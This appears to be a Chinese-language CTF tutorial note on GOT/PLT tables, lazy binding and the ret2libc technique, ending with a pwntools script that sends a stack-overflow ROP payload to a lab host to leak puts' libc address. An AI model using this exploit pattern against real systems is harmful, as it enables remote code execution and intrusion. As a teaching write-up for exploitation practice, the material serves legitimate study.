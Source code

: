 



#### 三 GOT表&PLT表

​		GOT&PLT

​		就是利用某个可打印东西的函数，打印出另一个函数在Got表中的地址，GOT(Global Offset Table,全局偏移表)是Linux ELF文件中用于定位全局变量和函数的一个表。

​		PLT(Procedure Linkage Table, 过程链接表)是Linux ELF文件中用于延迟绑定的表。

​		延迟绑定

​		所谓延迟绑定，就是当函数第一次被调用的时候才进行绑定(包括符号查找、重定位等),如果函数从来没有用到过就不进行绑定。基于延迟绑定可以大大加快程序的启动速度，特别有利于一些引用了大量函数的程序。

​		plt表存的got表的地址，got表存的所需函数的地址，通过栈溢出构造rop链泄露出所需函数的真实地址，后续再用泄露出的真实地址减去libc中这个函数的地址，就可以得到libc的基地址，再通过libc的基地址加上我们所需函数在libc中的偏移地址，一般这里我们会选择system和binsh为我们所需要的函数。这样就能getshell了。

#### 四 ret2libc实操

​		**x32 payload结构**

![image-20240415205312251](../typora-user-images/image-20240415205312251.png)

cyclic 200 生成200个随机字符串 输入会报错，在pwndgb中以此来得到地址

cyclic -l<地址>   计算距离此地址长度，确定填充垃圾数据的个数











#### 		计算libc基址(固定公式)

​		函数在libc中的偏移地址可以用python pwntools中的函数libc.symbols['puts']函数进行计算。

​		libc基地址 = 函数实际地址-函数在libc库中的偏移地址

​		system_addr = libc基地址 + system在libc库中的偏移地址

​		puts_addr = libc基地址 + puts在libc库中的偏移地址

​		**x64 payload结构**

![image-20240415221420752](../typora-user-images/image-20240415221420752.png)

```python
# 简单例题
from pwn import *

r=remote('10.10.99.69',6666)

elf=ELF('./文件名')

padding = 120    # 前面确定的填充数据个数+指针8字节

puts_plt = elf.plt['puts']   # 导入puts的plt表
puts_got = elf.got['puts']   # 导入puts的got表

main_addr = 0x4006F6
pop_rdi_ret = 0x400783

payload=b'a'*padding+p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
r.sendline(payload)

r.recvline()
puts_real = u64(r.recvline()[:-1].ljust(8,b'\x00'))
print(hex(puts_real))

```